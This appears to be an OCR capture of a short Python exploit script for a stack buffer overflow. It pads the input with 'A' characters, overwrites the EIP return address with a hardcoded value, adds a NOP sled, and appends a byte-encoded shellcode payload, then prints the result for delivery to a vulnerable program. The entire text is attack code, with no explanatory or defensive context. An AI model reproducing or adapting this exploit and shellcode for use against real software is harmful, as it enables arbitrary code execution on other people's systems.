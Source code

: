 
buffer = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"

EIP = "\x51\x1b\xdf\xf7"

nop = '\x90' * 5

buf =  b""
buf += b"\xbf\x28\xdb\x66\x5f\xdb\xc3\xd9\x74\x24\xf4\x5e"

buf += b"\x33\xc9\xb1\x11\x83\xc6\x04\x31\x7e\x0e\x03\x56"

buf += b"\xd5\x84\xaa\xcc\xe2\x10\xcc\x42\x93\xc8\xc3\x01"

buf += b"\xd2\xee\x74\xea\x97\x98\x84\x9c\x78\x3b\xec\x32"

buf += b"\x0e\x58\xbc\x22\x0d\x9f\x41\xb2\x4d\xfe\x35\x92"

buf += b"\xbe\x2e\xc5\xb7\xa3\x5c\x4c\x43\x0b\x8f\xf8\xce"

buf += b"\x21\xb6\x77\x75\xa5\x3a\x1d\x01\x07\xcb\xb9\x8b"

buf += b"\x57\x7c\x11\xc2\xb9\x4f\x15"


print(buffer + EIP + nop + buf)
